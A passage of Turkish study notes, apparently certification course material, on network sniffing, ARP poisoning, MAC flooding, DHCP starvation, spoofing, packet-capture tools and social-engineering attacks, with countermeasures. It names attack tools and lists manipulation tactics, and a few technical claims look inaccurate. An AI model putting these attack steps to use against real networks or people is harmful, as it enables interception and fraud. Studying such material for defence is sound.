- Promiscuous mode - Bu mod, genellikle ağ güvenliği araştırmalarında veya ağ trafiği analizi gibi uygulamalarda kullanılır. Promisküöz modda, ağ arayüz kartı tüm ağ çerçevelerini algılar ve bu çerçeveler üzerinde işlem yapabilir. Bu mod, ağ üzerinde geçen tüm verileri dinleme ve izleme işlemlerinde kullanılır ve ağ üzerinde bulunan bilgi ve verileri tespit etmek amacıyla kullanılır. 
- CSMA/CD - Bu protokol, ağ üzerinde birden fazla cihazın aynı anda veri gönderme işlemini engellemek için kullanılır. CSMA/CD protokolü, ağ üzerinde bir çarpışma (collision) olduğunda bu çarpışmayı algılar ve gönderilen verileri yeniden gönderme işlemini gerçekleştirir. Bu sayede, ağ üzerinde veri iletişimini sağlamak için cihazlar arasında düzenli bir iletişim süreci oluşturulur. 
- Collision Domains /Çarpışma Etki Alanları 
- Bir ağ arayüz kartından gönderilen veriler sadece aynı çarpışma alanı içinde algılanabilir. Çarpışma alanı, bir ağda veri iletişimini sağlamak için kullanılan bir terimdir ve ağ üzerinde bir çarpışma (collision) oluşabilecek cihazların bulunduğu alandır. Bir ağda birden fazla cihazın aynı anda veri gönderme işlemini engellemek için kullanılan CSMA/CD protokolü, çarpışma alanı içinde bulunan cihazlar arasında çalışır. Bu nedenle, bir ağ arayüz kartının trafiği sadece aynı çarpışma alanı içinde görülebilir ve bu trafik, çarpışma alanı dışındaki cihazlar tarafından algılanamaz. 
- Hub'lar varsayılan olarak bir çarpışma alanına sahiptir. Çarpışma alanı, bir ağda veri iletişimini sağlamak için kullanılan bir terimdir ve ağ üzerinde bir çarpışma (collision) oluşabilecek cihazların bulunduğu alandır. Hub, ağ üzerinde birçok cihazı bir araya getiren bir ağ cihazıdır ve bu cihazlar arasında veri iletişimini sağlar. Hub'lar, ağ üzerinde veri iletişimini sağlamak için CSMA/CD (Carrier Sense Multiple Access/Collision Detection) protokolünü kullanır ve bu protokol, ağ üzerinde bir çarpışma oluştuğunda bu çarpışmayı algılar ve gönderilen verileri yeniden gönderme işlemini gerçekleştirir. Bu sayede, ağ üzerinde veri iletişimini sağlamak için cihazlar arasında düzenli bir iletişim süreci oluşturulur. Bu nedenle, hub'lar varsayılan olarak bir çarpışma alanına sahiptir ve bu alan içinde bulunan cihazlar arasında veri iletişimini sağlar. 
- Switchler üzerinde her bir bağlantı noktası (port) için bir çarpışma alanına sahiptir. Çarpışma alanı, bir ağda veri iletişimini sağlamak için kullanılan bir terimdir ve ağ üzerinde bir çarpışma (collision) oluşabilecek cihazların bulunduğu alandır. Anahtarlayıcılar, ağ üzerinde birçok cihazı bir araya getiren ve bu cihazlar arasında veri iletişimini sağlayan ağ cihazlarıdır. Anahtarlayıcılar, ağ üzerinde veri iletişimini sağlamak için CSMA/CD (Carrier Sense Multiple Access/Collision Detection) protokolünü kullanır ve bu protokol, ağ üzerinde bir çarpışma oluştuğunda bu çarpışmayı algılar ve gönderilen verileri yeniden gönderme işlemini gerçekleştirir. Anahtarlayıcılar, ağ üzerinde veri iletişimini sağlamak için cihazlar arasında düzenli bir iletişim süreci oluşturmak için her bir port için ayrı bir çarpışma alanına sahiptir. Bu sayede, anahtarlayıcılar ağ üzerindeki trafikteki verileri daha etkin bir şekilde yönlendirir ve ağ performansını arttırır. 

Duyarlı Protokoller (Protocols Susceptible) 

Sniffing saldırılarına karşı savunmasız olan bazı protokoller. 

- IMAP, POP3, NNTP ve HTTP'nin tümü açık metin verileri üzerinden gönderilir. 
- SMTP, düz metin olarak gönderilen ve ağ üzerinden görülebilen bir e-posta iletişim protokolüdür. SMTP v3, bu protokolün kullanımı sırasında elde edilebilecek bilgi miktarını sınırlar, ancak hala ağ üzerinden görülebilir ve izlenebilir. SMTP, e-posta mesajlarının gönderilmesi ve alınması için kullanılan bir protokoldür ve genellikle internet üzerinden e-posta gönderme ve alma işlemlerinde kullanılır. SMTP, e-posta mesajlarının gönderilmesi sırasında mesaj içeriğini ve diğer bilgileri düz metin olarak gönderir ve bu bilgiler ağ üzerinden görülebilir. SMTP v3 ise, bu protokolün kullanımı sırasında elde edilebilecek bilgi miktarını sınırlamaya yönelik bir versiyonudur ve bu sayede ağ üzerinden izlenen bilgilerin miktarı azaltılır. 
- FTP, kullanıcı kimliğini ve parolayı açık metin olarak gönderir. 
- TFTP her şeyi açık metin olarak iletir. 
- TCP sıra numaralarını gösterir (oturum ele geçirmede kullanılabilir) 
- TCP ve UDP açık bağlantı noktalarını gösterir. 
- IP, kaynak ve hedef adresleri gösterir. 

ARP 

- Adres Çözümleme Protokolü anlamına gelir. 
- IP adresini bir mac adresine çözer. 
- Paketler ARP\_REQUEST ve ARP\_REPLY'dir. 
- Her bilgisayar, zehirlenebilen kendi ARP önbelleğini korur. 
- Komutlar 
- arp -a geçerli ARP ön belleğindeki kayıtları gösterir. 
- arp -d \* ARP ön belleğinde ki tüm kayıtları temizler. 
- Works on a broadcast basis - "Broadcast basis" ifadesi, herkese yayınlanan bir sistem anlamına gelir. Bu, isteklerin ve yanıtların herkese yayınlanarak gönderildiği anlamına gelebilir. Örneğin, bir televizyon yayını veya radyo yayını gibi, herkes tarafından alınabilir ve izlenebilir veya dinlenebilir. Bu tür bir sistemde, mesajlar genellikle bir vericiden, yayın istasyonundan veya sunucudan gönderilir ve alıcılar tarafından alınır. 
- Gratuitous ARP - "Gratuitous ARP" ifadesi, istek olmadan bile ARP önbelleğini güncellemeyi amaçlayan özel bir paket anlamına gelir. ARP (Address Resolution Protocol) önbelleği, bir ağda bulunan cihazlar arasında IP adresleri ile MAC (Media Access Control) adreslerinin eşleştirilmesini tutan bir veritabanıdır. Gratuitous ARP paketleri, ağdaki cihazların ARP önbelleğini güncellemek için özel olarak oluşturulmuş paketlerdir ve genellikle ağdaki bir cihazın IP adresi veya MAC adresi değiştiğinde gönderilir. Bu sayede, ağdaki diğer cihazların ARP önbelleği güncellenir ve değişiklikler yansıtılır. 
- Bu, diğer makinelerde önbelleği zehirlemek için kullanılır. 

IPv6 

- 128 bit adres kullanır. 
- Dört onaltılık basamaktan oluşan sekiz gruba sahiptir. 
- Tümü 0 olan bölümler sıfıra kısaltılabilir (sadece başlangıç ve bitiş kolonları vardır). 
- Çift kolon yalnızca bir kez kullanılabilir. 
- Geridöngü (LoopBack )adresi::1 

- Kapsam, çok noktaya yayın ve her yere yayın için geçerlidir. 
- Geleneksel ağ taraması hesaplama açısından daha az uygulanabilir. 

Wiretapping 

Wiretapping" veya "telephone tapping", genellikle gizli yöntemlerle bir üçüncü taraf tarafından telefon ve İnternet konuşmalarının izlenmesi olarak tanımlanır. Türkçe'de, bu ifade "telefon dinleme" olarak çevirilebilir. Telefon dinleme, bir kişinin veya kuruluşun bir başkasının telefon konuşmalarını dinlemesi veya izlemesi olarak tanımlanır. Bu tür bir dinleme yöntemi, genellikle yasal olmayan yöntemlerle yapılır ve yasal olarak yasaklanmıştır. Telefon dinleme, özel hayatın gizliliğine saygısızlık olarak değerlendirilir ve genellikle aşırı güç kullanımı veya suç işlemeyi hedefleyen bir araç olarak kullanılır. 

- Lawful interception - "Lawful interception" ifadesi, iki taraf arasındaki iletişimin yasal olarak dinlenmesi anlamına gelir. Türkçe'de, bu ifade "yasal dinleme" olarak çevirilebilir. Yasal dinleme, özel hayatın gizliliğine saygı göstererek yapılan ve yasal olarak izin verilen bir dinleme yöntemidir. Yasal dinleme, genellikle polis veya adli makamlar tarafından suç işlemeyi önleme veya araştırma amacıyla kullanılır. Yasal dinleme için, yasal bir gerekçe gereklidir ve bu gerekçe, genellikle bir suç işlemeyi önleme veya araştırma amacıyla belirlenir. Yasal dinleme, yasal olarak belirlenmiş kurallar ve prosedürler çerçevesinde yapılır ve yasal olarak izin verilen bir yöntemdir. 
- Active - Etkin bir yöntem, bir iletişim sürecinde katılım göstermeyi amaçlar ve iletişim içinde bir rol oynar. Örneğin, bir konuşma sırasında bir kişi, etkin bir şekilde konuşmaya katılabilir ve konuşmaya girdiği herhangi bir anda konuşmayı değiştirebilir. Etkin bir yöntem, genellikle iletişim sürecini etkilemeyi ve değiştirmeyi amaçlar ve bu nedenle etkili bir yöntem olabilir. Etkin bir yöntem, aynı zamanda bir iletişim sürecine dikkat çekmeyi ve iletişim içinde bir rol oynama amacını da içerebilir. 
- Passive - Pasif bir yöntem, bir iletişim sürecinde katılım göstermez ve iletişim içinde bir rol oynamaz. Örneğin, bir konuşma sırasında bir kişi, pasif bir şekilde sadece konuşmayı izler ve kaydeder, ancak konuşmaya katılmaz veya konuşmayı değiştirmez. Pasif bir yöntem, genellikle sadece verileri izlemeyi ve kaydetmeyi amaçlar ve bu nedenle etkisiz bir yöntem olabilir. Pasif bir yöntem, aynı zamanda bir iletişim sürecine dikkat çekmeyi ve iletişim içinde bir rol oynama amacını içeremez. 
- PRISM - PRISM, National Security Agency (NSA) tarafından geliştirilen ve kullanılan bir veri toplama ve analiz sistemidir. Bu sistem, ABD'de bulunan bir veri toplama merkezi olan Utah Data Center'da bulunur ve ABD dışından gelen verilerin dinlenmesini ve izlenmesini amaçlar. PRISM sistemi, ABD hükümeti tarafından onaylanmış ve yasal olarak izin verilen bir yöntemdir, ancak bu yöntem özel hayatın gizliliğine saygısızlık olarak değerlendirilebilir ve eleştiriye maruz kalabilir. 

MAC Taşması (MAC Flooding) 

- Flood veya forward data arasında geçiş yapar. 
- Eğer bir switch de, bir port üzerinde hangi MAC adresinin olduğunu bilmiyorsa, verileri bulana kadar flood basar. 
- CAM (Content Addressable Memory) tablosu, bir anahtarın ağda bulunan cihazlar arasında veri aktarımı yaparken kullandığı bir veritabanıdır. Bu tablo, her cihazın MAC adresini ve bu cihazın bulunduğu portu saklar ve bu sayede anahtar, verileri doğru cihaza gönderebilir. CAM tablosu, anahtarın veri aktarımı sırasında kullandığı bir önbellek gibi düşünülebilir ve bu sayede anahtarın işlemleri hızlı bir şekilde yapmasını sağlar. 
- Tablo boş veya doluysa, her şey tüm bağlantı noktalarına gönderilir. 
- Genellikle kullanışlı bir şey elde etmeden önce switch yok eder, uzun süre dayanmaz ve dikkat çeker. Ayrıca, çoğu modern switchler bu duruma karşı koruma sağlar. 
- CAM Table Overflow Attack - Bir saldırganın bir veya birden fazla switch portuna bağlandıktan sonra, o portlarda binlerce rastgele MAC adresinin varlığını taklit eden bir araç çalıştırdığı durumda gerçekleşir. Switch, bu adresleri CAM tablosuna girer ve sonunda CAM tablosu kapasitesini doldurur. (Bu saldırı, CAM tablosuna çok sayıda MAC adresi gönderilerek gerçekleştirilir ve bu nedenle CAM tablosu takip edemez.) Bu saldırı, macof kullanarak gerçekleştirilebilir. 
-  
- Mac Flooding Araçları 
- Etherflood 
- Macof 
- Dsniff 

Switch Bağlantı Noktası Çalma 

Bir yarış koşulunda belirli bir bağlantı noktasıyla ilgili bilgileri güncellemeye çalışır. 

1. ARP Flood 
- Kaynak MAC adresi bir kurbanla aynı. 
- Hedef MAC adresi saldırgana aittir. 
- CAM port bilgilerini günceller (çalındı) 
2. Saldırgan artık kurban trafiğini kesiyor. 
3. Saldırgan Flooding’ I durduruyor. 
4. Kurban portu geri alır. 
5. Saldırgan yakalanan verileri yeniden iletir. 
6. Saldırgan flooding’ I tekrar başlatır. 

ARM Zehirlemesi / ARP Poisoning 

 

"ARP spoofing" ifadesi, bir kötücül aktörün bir yerel alan ağı üzerinden yanlış ARP (Address Resolution Protocol - Adres Çözümleme Protokolü) mesajları gönderdiği bir saldırı türüdür. Bu, saldırganın MAC adresinin, ağda bulunan bir bilgisayar veya sunucunun IP adresiyle eşleştirildiği sonucunu doğurur. 

- Bu saldırı türü, bir kötücül aktörün bir yerel alan ağı üzerinden yanlış ARP mesajları gönderdiği bir saldırı türüdür. Gratuitous ARP ise, ARP önbelleğini güncellemek için gönderilen özel bir pakettir ve bu paket, bir istek olmadan da gönderilebilir. Gratuitous ARP, ARP önbelleğini güncelleme amacıyla kullanılır ve genellikle ağdaki cihazların IP ve MAC adreslerinin değiştiği durumlarda kullanılır. Bu ifadeler, ağda bulunan cihazlar arasında veri aktarımı sırasında kullanılan yöntemleri ve araçları tanımlar. 
- ARP önbelleği sürekli olarak güncellenmesi gerekir. Eğer ARP önbelleği sürekli olarak güncellenmiyorsa, cihazlar arasında veri aktarımı sırasında problemler olabilir ve bu durum uyarıları tetikleyebilir. 
- Bir ağda bulunan cihazların ARP (Address Resolution Protocol - Adres Çözümleme Protokolü) önbelleğinin değiştirilerek paketlerin hedeflenen hedefe değil, başka bir cihaza gönderildiği durumu tanımlar. Bu tür bir değişiklik, ağda bulunan cihazlar arasında veri aktarımı sırasında problemlere neden olabilir ve ağın güvenliğini tehlikeye atabilir. 
- Karşı Önlemler : 
- DHCP gözetleme kullanarak Dinamik ARP Denetimi 
- Eşlemek için Statik ARP ACL kullanabilir 
- Yük doğrulaması için başlık. 
- Monitör edebilmek için XARP yazılımı da kullanılabilir. 
- MAC ayrıca her makinenin önbelleğine kalıcı olarak eklenebilir. 
- ARP Zehirlemesi için Kullanılan Araçlar 
- Cain and Abel 
- WinArpAttacker 
- Ufasoft 
- Dsniff 

DHCP Açlığı (DHCP Starvation) 

DHCP (Dynamic Host Configuration Protocol - Dinamik Ana Makine Yapılandırma Protokolü) sunucuları hedef alan bir saldırı türünü tanımlar. Bu saldırıda, bir saldırgan sahte DHCP istekleri oluşturur ve bu sayede DHCP sunucusunun dağıtabileceği tüm mevcut IP adreslerini tüketmeyi amaçlar. Bu tür bir saldırı, ağda bulunan cihazlar arasında veri aktarımı sırasında problemlere neden olabilir ve ağın performansını düşürür. 

- Sunucudaki tüm kullanılabilir adresleri tüketme girişimi 
- Saldırgan o kadar çok istek gönderir ki ayrılan adres alanı tükenir. 
- DHCPv4 paketleri - DHCPDISCOVER, DHCPOFFER, DHCPREQUEST, DHCPACK 
- DHCPv6 paketleri - Solicit, Advertise, Request (Confirm/Renew), Reply 
- DHCP Adımları 
- İstemci DHCPDISCOVER gönderir 
- Sunucu DHCPOFFER ile yanıt verir 
- İstemci, DHCPREQUEST ile IP isteği gönderir. 
- Sunucu, adresi ve yapılandırmayı DHCPACK aracılığıyla gönderir. 
- Araçlar : 
- Yersinia 
- DHCPstarv 
- Azaltma, DHCP gözetlemeyi yapılandırmak içindir. 
- Sahte DHCP sunucusu, bir ağda bulunan gerçek DHCP sunucusunun yerine geçen ve ağdaki cihazların IP adreslerini dağıtmak amacıyla kurulmuş bir sunucudur. Bu sunucu, gerçek DHCP sunucusundan farklı olarak ağda bulunan cihazlara yanlış veya sahte IP adresleri dağıtabilir ve bu sayede ağdaki cihazlar arasında veri aktarımı sırasında problemlere neden olabilir. Sahte DHCP sunucusu, gerçek DHCP sunucusuna açlık kombinasyonuyla da birleştirilebilir ve bu durumda, gerçek DHCP sunucusunun IP adreslerini dağıtamamasına neden olunur. Bu tür bir saldırı, ağda bulunan cihazlar arasında veri aktarımı sırasında problemlere neden olabilir ve ağın güvenliğini tehlikeye atabilir. 

Kimlik Sahtekarlığı (Spoofing) 

- MAC Spoofing - MAC sahtekarlığı, bir ağda bulunan bir cihazın MAC (Media Access Control - Ortam Erişim Kontrolü) adresini değiştirme işlemine verilen isimdir. MAC adresi, bir ağdaki bir cihazın benzersiz bir tanımlayıcıdır ve bu adres, cihazlar arasında veri aktarımı sırasında kullanılır. MAC sahtekarlığı, bir cihazın MAC adresini değiştirerek, CAM tablosunda yer alan bilgileri güncellemeyi amaçlar. 
- Bağlantı noktası güvenliği bunu yavaşlatabilir, ancak her zaman durdurmaz. 
- MAC sahtekarlığının bir ağda bulunan anahtarın paketlerin hedeflenen cihaza değil, başka bir cihaza gönderilmesini sağladığını ve bu durumun, CAM tablosunun gerçek adresle güncellenene kadar devam ettiğini tanımlar. 
- IRDP Spoofing - bir saldırganın, ICMP Router Discovery Protocol (Yönlendirici Keşfi Protokolü - IRDP) mesajları kullanarak bir ağda bulunan cihazların yönlendiricilere bağlanmalarını sağladığı ve bu mesajları kötü niyetli bir ağ geçidini reklam etmek amacıyla gönderdiği durumu tanımlar. 
- DNS Poisoning - Bir saldırganın makinelere DNS bilgilerini almaları için kullandıkları kaynakları değiştirerek, kötü niyetli web sitelerine yönlendirmeyi mümkün kılar. Bu tür bir saldırı, bir kullanıcının güvenliğini tehlikeye atabilir ve bilgi güvenliği ihlali olarak kabul edilebilir 

Sniffing Araçları 

Wireshark 

Wireshark, dünya çapında kullanılan ve en yaygın olarak kullanılan ağ protokol analiz aracıdır. Bu aracı kullanarak, ağınızda mikroskobik düzeyde ne olduğunu görebilirsiniz. 

- Wireshark kullanarak, ARP zehirlenmelerini, Sahte DHCP sunucularını, Yayın Fırtınası gibi sorunları inceleyip tespit edebilirsiniz. 
-  
- Daha önce Ethereal olarak bilinir 
- Veri akışlarını takip etmek için kullanılabilir 
- Belirli bir türü veya belirli bir kaynak adresini bulabilmeniz için paketleri de filtreleyebilir. 
- Wireshark Filtreleri 
- !(arp or icmp or dns) 
- Filters out the "noise" from ARP, DNS and ICMP requests 
- ! - Clears out the protocols for better inspection 
- tcp.port == 23 
- Look for specific ports using tcp.port 
- ip.addr == 10.0.0.165 
- Look for specific IP address 
- ip.addr == 172.17.15.12 && tcp.port == 23 
- Displays telnet packets containing that IP 
- ip.src == 10.0.0.224 && ip.dst == 10.0.0.156 
- See all packets exchanged from IP source to destination IP 
- http.request 
- Displays HTTP GET requests 
- tcp contains string 
- Displays TCP segments that contain the word "string" 
- tcp.flags==0x16 
- Filters TCP requests with ACK flag set 

TCPDUMP 

cpdump, bir komut satırı arabiriminde çalışan bir bilgisayar programıdır ve bir veri ağı paket analiz aracıdır. Bu aracı kullanarak, bilgisayara bağlı olan bir ağ üzerinde gönderilen veya alınan TCP/IP ve diğer paketleri görüntüleyebilirsiniz. 

 

- Syntax 
- tcpdump -i eth1 
- Puts the interface in listening mode 
- WinDump, tcpdump'a benzer bir Windows sürümüdür. 

TCPTrace 

- Tcptrace, Wireshark, Tcpdump ve Etherpeek gibi paket yakalama programları tarafından üretilen dosyaları analiz eden bir programdır. 

Diğer Araçlar 

- Ettercap - Ettercap, MITM (Man-in-the-Middle) saldırıları ve ARP zehirlenmeleri için de kullanılabilen bir ağ güvenlik aracıdır. Aktif ve pasif koklama özelliklerine sahiptir. 
- Capsa Network Analyzer 
- Snort - Bu uygulama, ağınızdaki veri trafiğini inceleyerek güvenlik ihlallerini tespit etmeyi amaçlar. Snort, ağınızdaki problemleri tespit etmeyi ve çözüm üretebilmeyi kolaylaştıran önemli bir uygulamadır. Güvenlik ihlali algılama uygulamaları, ağınızın güvenliğini korumanıza yardımcı olur ve saldırılara karşı koruma sağlar. 
- Sniff-O-Matic 
- EtherPeek 
- WinDump 
- WinDump 

Karşı Savunma ve Karşı Önlem Teknikleri 

Sniffing (Koklama) :  

- ARP Dynamic'i devre dışı bırakın. 
- ARP sahtekarlığını tespit edebilecek uygulamalar kullanın. 
- Sisteminizden ayrılan tüm trafiği temizleyin. 
- Halka açık Wİ-Fİ noktalarından kaçının. 
- Ağınızı sürekli olarak monitoring uygulamaları ile takip edin. 
- Loglarda ters DNS aramaları yapın. 
- Yanlış MAC adresine sahip şüpheli istemcilere ping atma 
- Eğer şüpheli, paketi kabul ederse, bu ağı kokladığı veya NIC'in promisküöz modda kullandığının iyi bir göstergesidir. 
- Sniffer Detect için Nmap'i nse-script ile kullanın: 
- nmap --script=sniffer-detect 

Social Engineering 

Sosyal Mühendislik, bir kişi veya grup üzerinde oynama yaparak, onların aksi takdirde vermeyecekleri bir bilgi veya hizmeti vermelerini sağlamayı amaçlayan bir sanattır. 

Aşamalar 

- Hedef Şirketi araştırma. 
- Çöp kutusuna dalın, web sitelerini ziyaret edin, şirketi gezin vb. 
- Kurbanınızı seçin. 
- Hayal kırıklığına uğramış çalışanı veya diğer hedefi tanımlayın. 
- Bir ilişki kurun, tanışın. 
- Hedef çalışanla ilişki geliştirmek 
- ilişkiyi istismar et. 
- Hassas bilgileri ve güncel teknolojileri toplayın 

Prensipler 

3. Yetki 
- Bir otorite pozisyonunun kimliğine bürünme veya ima etme 
4. Yıldırma 
- Tehditle korkutmak 
5. Fikir birliği / Sosyal kanıt 
- Genel bir grup anlaşmasına ikna etmek 
6. Kıtlık 
- Bu oldukça uzun zaman alabilir. 
7. Aciliyet 
- Kıtlıkla birlikte çalışır / hızlı hareket edin, düşünmeyin 
8. Aşinalık 
- Daha yakın bir ilişki. 
9. Güven 
- Dürüstlüklerine güvenmelerini sağlamak. 

Davranışlar 

- İnsan doğası/Güven 
- Cehalet 
- Korku 
- Açgözlülük 
- Ahlaki yükümlülük duygusu 

Şirketlerin Ortak Riskleri: 

- Yetersiz Eğitim. 
- Kontrol Eksikliği 
- Teknik olarak 
- Firewall Kuralları, Patch-yama yönetimleri 
- Yönetim 
- Zorunlu Tatiller, İş Rotasyonları, Görev Ayrılığı 
- Fiziksel 
- Uygun Aydınlatma, Kameralar 
- Şirketin Büyüklüğü Önemlidir 
- Politika eksikliği 
- Karışık Politikalar 
- Müsamahakar Politika 
- İhtiyatlı Politika 
- Paranoyak Politika 

Sosyal Mühendislik Atakları 

İnsana Karşı Yapılan Ataklar 

- Dumpster Diving – Çöp kutusundaki hassas bilgileri aramak. 
- Parçalanmış kağıtlar bazen hassas bilgileri gösterebilir. Kullanıcı adı, Şifre vb. 
- Kimliğe Bürünme – Olmadığın biri gibi davranmak. 
- Bir yardım masası çalışanından yetkili bir kişiye kadar her şey olabilir. 
- Bir teknik destek uzmanı olarak rol almak, bir kişinin güvenini gerçekten hızlı bir şekilde kazanmanıza yardımcı olur. 
- Omuz Sörfü – Bilgi almak için birinin omzunun üzerinden bakmak. 
- Dürbün vb. ile uzun mesafe yapılabilir. 
- Kulak misafiri olmak - Hassas bilgilerle ilgili konuşmaları dinlemek. 
- Tailgating - Saldırgan, geçerli bir rozeti olan birinin arkasından girer. (Örneğin:Kutuları tutarak veya herhangi bir uyarı almadan basitçe takip ederek) 
- Piggybacking - Saldırgan, rozetini kaybetmiş gibi davranır ve birinden kapıyı tutmasını ister. 
- RFID Kimlik Hırsızlığı (RFID skimming) - Özel bir cihazla bir RFID kart imzasını çalma 
- Reverse Social Engineering - Reverse social engineering, insanları aramanızı ve bilgi vermenizi sağlar. Bu, bir kişinin kendi bilgi veya güvenlik sistemlerine girmek için başka bir kişiden yardım isteme yöntemidir. Bu yöntem, bir kişinin kendi güvenlik sistemlerine girmek için diğer bir kişiden yardım istemek suretiyle gerçekleştirilir. 
- Genellikle teknik destek ile gerçekleşir - kullanıcıya bir e-posta gönderilir ve kullanıcının teknik bir sorun nedeniyle geri aramaları gerektiği belirtilir. Bu durumda, kullanıcı geri arar ve teknik destek ekibi tarafından yönlendirilir. 
- Ayrıca, bir DoS (Denial of Service) saldırısı ile birleştirilerek, kullanıcının hakkında aramalığı gereken bir sorun oluşturulabilir. DoS saldırısı, bir ağın veya bir cihazın belli bir zamanda aşırı yük altına sokulmasıyla oluşturulan bir saldırı türüdür. Bu, bir ağın veya bir cihazın performansını düşürür ve kullanıcıların erişimini engeller. 
- Her zaman hoşgörülü olun, bu sayede daha fazla bilgi edinirsiniz. 
- Insider Attack - İç saldırı, genellikle mutsuz olan bir çalışan tarafından gerçekleştirilen bir saldırıdır. Bu tür bir saldırı, bir çalışanın işyeri bilgisayar sistemlerine ve verilere zarar vermeyi amaçlayan bir saldırıdır. 
- Bu sınıflandırma, iç saldırıların nedenine göre yapılabilir. Örneğin, dikkatsiz iç saldırıları, bir çalışanın bilgi güvenliği kurallarını ihmal etmesi veya güvenlik önlemlerini ihmal etmesi sonucu oluşan saldırılar olarak sınıflandırılabilir. Profesyonel iç saldırıları ise, bir çalışanın işyeri bilgisayar sistemlerine ve verilere zarar vermeyi amaçlayan düşünceli ve planlı bir saldırı olarak sınıflandırılır. 

Bilgisayar Tabanlı Saldırılar 

Facebook gibi sitelerde bir kişi hakkında bilgi mevcut olduğu için başlayabilir; Örneğin - Eğer Bob'un bir projede çalıştığını biliyorsanız, ona o projeye dair bir e-posta gönderebilirsiniz. Bu e-posta, projesinde çalışan bir kişiden geldiğine inandırılarak gönderilirse çok normal görünebilir. Bu cümle, bir kişinin bilgi ve güvenlik sistemlerine girmek için sosyal mühendislik yöntemlerinden birini anlatmaktadır. 

- Phishing, gerçek gibi görünen ama yanıltıcı web sitelerine veya kötü amaçlı içerik indirme bağlantılarına sahip olan bir e-posta oluşturma işlemidir. Phishing, bir kötü amaçlı kişi tarafından gerçekleştirilen bir siber saldırı türüdür. Bu tür bir saldırı, bir kullanıcının güvenlik bilgilerini veya diğer önemli bilgilerini çalmak amacıyla gerçekleştirilir. Phishing saldırıları, genellikle bir kullanıcıya gerçek gibi görünen ama aslında yanıltıcı olan bir e-posta gönderilerek gerçekleştirilir. Bu e-posta, yanıltıcı web sitelerine veya kötü amaçlı içerik indirme bağlantılarına sahip olabilir. 
- Kimlik Avından Kaçınmanın Yolları 
- Bilinmeyen, beklenmedik veya şüpheli içeriklere dikkat edin. 
- E-postanın kime gönderildiğine dikkat edin. 
- Telefon numarasını doğrulayın. 
- Kötü yazım ya da dil bilgisi kurallarına dikkat edin. 
- Her zaman linkleri kontrol edin. 
- Spear Phishing - Phishing saldırılarının bir çeşididir ve genellikle bir kişi veya bir grup hedef alınarak gerçekleştirilir. 
- Saldırı hedeflenebildiği için daha yararlı olabilir. 
- Whaling - CEO veya diğer C-level yöneticilerine yönelik bir saldırıdır. Whaling, bir kötü amaçlı kişinin yönetici düzeyindeki kişilere yönelik düşünceli ve planlı bir şekilde gerçekleştirilen bir siber saldırıdır. 
- Pharming - Bir kullanıcının trafiğinin bir klon web sitesine yönlendirilmesini sağlar; DNS kirliliği kullanılabilir. Pharming, bir kötü amaçlı kişinin bir kullanıcının internet trafiğini yönlendirmeyi amaçlayan bir siber saldırıdır. Bu tür bir saldırı, genellikle bir kullanıcının internet trafiğini bir klon web sitesine yönlendirmeyi amaçlar. 
- Spamming - anlık mesaj üzerinden spam gönderme işlemidir. Spamming, bir kötü amaçlı kişinin bir kullanıcıya ya da bir gruba istemediği veya gereksiz olarak gönderilen e-postalar gönderme işlemidir. 
- Fake Antivirus - Çok yaygın bir saldırıdır; bir antivirüs gibi görünse de kötü amaçlı bir araçtır. Sahte Antivirus, bir kötü amaçlı kişinin bir kullanıcıyı yanıltarak bilgisayarını zarar vermeyi amaçlayan bir siber saldırıdır. 

Araçlar 

- SET (Social Engineering Toolkit) - İnsanların davranışlarını sömürme yoluyla ileri düzey saldırılar gerçekleştirme amacıyla tasarımlanmış bir pentest aracıdır. SET (Social Engineering Toolkit), bir pentest aracıdır ve siber güvenlik testleri yapmak için kullanılır. Bu aracın amacı, insanların davranışlarını sömürme yoluyla gerçekleştirilen ileri düzey saldırıları gerçekleştirmeyi amaçlar. Bu tür saldırılar, genellikle sosyal mühendislik yöntemleri kullanılarak gerçekleştirilir. 
- PhishTank - Phishing tespiti için kullanılan bir platformdur. PhishTank, bir kötü amaçlı kişinin bir kullanıcıya gerçek gibi görünen ama aslında yanıltıcı olan bir e-posta gönderdiği phishing saldırılarını tespit etmek amacıyla kullanılan bir platformdur. Bu platform, kullanıcıların phishing saldırılarını bildirmeyi ve bunların tespit edilmesini amaçlar. 
- Wifiphisher - Wi-Fi ağlarına karşı otomatik phishing saldırıları gerçekleştirir ve bu sayede kimlik bilgilerini elde etmeyi veya zararlı yazılım enjekte etmeyi amaçlar. Wifiphisher, bir kötü amaçlı kişinin Wi-Fi ağlarına karşı gerçekleştirdiği phishing saldırılarını otomatikleştirmeyi amaçlayan bir araçtır. Bu araç, bir kullanıcının Wi-Fi ağına bağlandıktan sonra otomatik olarak phishing saldırıları gerçekleştirir. Bu sayede, bir kötü amaçlı kişi bir kullanıcının Wi-Fi ağına erişim bilgilerini elde edebilir veya bir kullanıcının bilgisayarına zararlı yazılım enjekte edebilir. 
- SPF SpeedPhish framework - SPF SpeedPhish çerçevesi, hızlı keşif ve basit sosyal mühendislik egzersizlerinin dağıtımı için tasarımlanmış bir platformdur. SPF SpeedPhish, bir kötü amaçlı kişinin hızlı bir şekilde sosyal mühendislik egzersizleri gerçekleştirmeyi amaçlayan bir platformdur. Bu platform, sosyal mühendislik egzersizlerini hızlı bir şekilde gerçekleştirmeyi ve dağıtmayı amaçlar. Bu sayede, bir kötü amaçlı kişi bir kullanıcının bilgi veya güvenlik sistemlerine girmesi için hızlı bir şekilde bir e-posta oluşturabilir veya bir kullanıcıyı yanıltıcı bir web sitesine yönlendirebilir. 

Mobil Tabanlı Saldırılar 

- ZitMo (ZeuS-in-the-Mobile) - Android için taşınan bir bankacılık zararlı yazılımıdır. ZitMo (ZeuS-in-the-Mobile), bir kötü amaçlı kişinin bir kullanıcının bankacılık işlemlerini sızma amacıyla kullandığı bir zararlı yazılımdır. Bu zararlı yazılım, orjinal olarak bir bilgisayar için tasarımlandıysa da daha sonra Android işletim sistemi için de port edilmiştir. Bu sayede, bir kötü amaçlı kişi bir kullanıcının Android cihazındaki bankacılık uygulamalarını sızma amacıyla ZitMo zararlı yazılımını kullanabilir. 
- Premium hizmetler talep etmek için SMS mesajları gönderilebilir. 
- Ataklar 
- Kötü amaçlı uygulamalar yayınlama 
- Meşru uygulamaları yeniden paketleme 
- Sahte güvenlik uygulamaları 
- SMS (smishing) 

Fiziksel Güvenlik Temelleri 

- Fiziksel önlemler, dokunabileceğiniz, tatabileceğiniz, koklayabileceğiniz veya şok edilebileceğiniz her şeydir. Fiziksel önlemler, bir ortamda gerçekleştirilebilecek fiziksel saldırıları önlemek amacıyla alınan önlemlerdir. Örneğin, bir bina girişinde kapı güvenlik kameralarının kullanılması veya bir bilgisayar odasında bilgisayarların fiziksel olarak korunması gibi önlemler fiziksel önlemlerdir 
